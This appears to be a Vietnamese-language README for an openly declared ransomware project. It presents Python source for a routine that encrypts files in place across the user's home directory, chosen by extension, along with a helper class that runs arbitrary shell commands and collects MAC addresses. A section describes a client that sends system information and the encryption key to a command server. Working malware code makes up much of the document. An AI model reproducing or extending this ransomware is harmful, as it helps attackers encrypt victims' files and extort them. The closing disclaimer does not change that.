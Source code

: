 # RANSOMWARE
Chương trình ransomware, một loại phần mềm độc hại thường sử dụng để mã hóa các tệp trên máy tính của người dùng và yêu cầu một khoản tiền chuộc để giải mã chúng.

## MODULES
**1.CRYPTO**
```python
def Process_Files(Private: Fernet, mode: str):
    for _, files in List_Files().items():
        for file in files:
            temp_file = file + '.temp'
            try:
                with open(file, 'rb') as original_file, open(temp_file, 'wb', buffering=4096*1024) as temp_file:
                    with mmap.mmap(original_file.fileno(), 0, access=mmap.ACCESS_READ) as mm:
                        offset = 0
                        while offset < len(mm):
                            chunk = mm[offset:offset + 4096 * 1024]
                            if not chunk:
                                break
                            processed_chunk = Private.encrypt(chunk) if mode == 'encrypt' else Private.decrypt(chunk)
                            temp_file.write(processed_chunk)
                            offset += len(chunk)
                shutil.move(temp_file.name, file)
            except Exception as e: pass
            finally:
                if os.path.exists(temp_file.name):
                    os.remove(temp_file.name)
```
1. Hàm *Process_Files* nhận vào hai tham số: *Private*, một đối tượng *Fernet* được sử dụng để mã hóa và giải mã, và *mode*, một chuỗi chỉ định chế độ hoạt động (‘encrypt’ hoặc ‘decrypt’).

2. Hàm này sẽ duyệt qua tất cả các tệp tin được trả về bởi hàm *List_Files*.

3. Đối với mỗi tệp, nó tạo một tệp tạm thời với tên là tên tệp gốc kèm theo ‘*.temp*’.

4. Nó mở tệp gốc để đọc và tệp tạm thời để ghi, với kích thước bộ đệm là 4096*1024 byte. Sử dụng mmap để ánh xạ tệp gốc vào bộ nhớ. 
Sau đó đọc và xử lý từng ‘*chunk*’ của tệp gốc, với kích thước ‘*chunk*’ là 4096*1024 byte.

5. Mỗi ‘*chunk*’ sau đó được mã hóa (nếu mode là ‘*encrypt*’) hoặc giải mã (nếu mode là ‘*decrypt*’) bằng cách sử dụng đối tượng Fernet, và sau đó được ghi vào tệp tạm thời.

6. Khi tất cả các ‘*chunk*’ đã được xử lý, tệp tạm thời được đổi tên thành tên của tệp gốc, thay thế tệp gốc. Nếu có lỗi xảy ra trong quá trình này, hàm sẽ bỏ qua lỗi và tiếp tục với tệp tiếp theo. Cuối cùng, nếu tệp tạm thời vẫn tồn tại nó sẽ được xóa.
```python
def List_Files() -> dict:
    with open('scripts/extensions.yaml', 'r') as file:
        exts = Safe_Load(file)

    file_categories = {category: [] for category in exts}
    extcategory = {ext: category for category, ext_list in exts.items() for ext in ext_list}

    for entry in Path.home().rglob('*'):
        if entry.is_file() and (ext := entry.suffix.lower()) in extcategory:
            file_categories[extcategory[ext]].append(str(entry))

    return file_categories
```
1. Hàm mở tệp ‘*scripts/extensions.yaml*’ để đọc và sử dụng hàm *Safe_Load(file)* để phân tích dữ liệu *YAML* từ tệp này. Kết quả được lưu vào biến *exts*.

2. Tạo một từ điển *file_categories* với các khóa là các danh mục từ *exts* và giá trị là các danh sách trống. Tạo một từ điển *extcategory* mà mỗi phần mở rộng tệp trong *exts* là một khóa và giá trị tương ứng là danh mục của phần mở rộng đó.

3. Sau đó duyệt qua tất cả các tệp trong thư mục chính của người dùng. Nếu một mục là tệp và phần mở rộng của nó (được chuyển thành chữ thường) có trong *extcategory*, tệp đó sẽ được thêm vào danh mục tương ứng trong *file_categories*.

**2.SYSTEM**
```python
class System:
    def __init__(self) -> None:
        self.Windows = _os_name == 'nt'
 
    def Init(self) -> None:
        _system('')

    def Clear(self) -> None:
        return _system("cls" if self.Windows else "clear")

    def Title(self, title: str):
        if self.Windows:
            return _system(f"title {title}")

    def Size(self, x: int, y: int) -> None:
        if self.Windows:
            return _system(f"mode {x}, {y}")
    
    def Reset(self) -> None:
        execv(executable, [executable] + argv) 
    
    def Mac(self) -> str:
        try:
            address_mac = [
                address.address 
                for addresses in net_if_addrs().values() 
                for address in addresses 
                if address.family == AF_LINK
            ]
            return '|'.join(address_mac) if address_mac else 'nm'  
        except:
            return 'nm'
    
    def Command(command: str):
        return _system(command)
```
    1 variable:
        Windows    |      cho biết người dùng đang sử dụng hệ điều hành Windows hay không
    7 functions:
        Init()     |      khởi tạo terminal để cho phép sử dụng màu sắc
        Clear()    |      xóa terminal
        Title()    |      đặt tiêu đề của terminal, chỉ dành cho Windows
        Size()     |      đặt kích thước của terminal, chỉ dành cho Windows
        Reset()    |      khởi động lại chương trình hiện tại
        Mac()      |      địa chỉ MAC của máy tính
        Command()  |      thực thi một lệnh shell trên hệ thống máy tính
```python
def Console(ip: str, msg: str, color: str) -> None:
    color_code = getattr(Col, color)
    message = f" [{Col.Green}{ip}{Col.White}] --> {color_code}{msg}{Col.White}."
    print(message)
```
1. Hàm getattr được sử dụng để lấy giá trị thuộc tính color từ đối tượng Col.

2. Tạo một chuỗi được định dạng

3. In ra chuỗi đã được định dạng

## SERVER - CLIENT

**Server**: Máy chủ chấp nhận kết nối từ máy khách và xử lý dữ liệu đến. Sử dụng luồng để xử lý nhiều kết nối máy khách cùng một lúc.

**Client**: kết nối thành công, gửi thông tin hệ thống và khóa đến máy chủ. Nếu không kết nối được sau 3 lần thử lại, thực hiện khởi động lại chương trình.

# Chúng tôi không chịu trách nhiệm về các hành vi vi phạm pháp luật của các cá nhân hay tổ chức sử dụng trái phép mã nguồn mở này!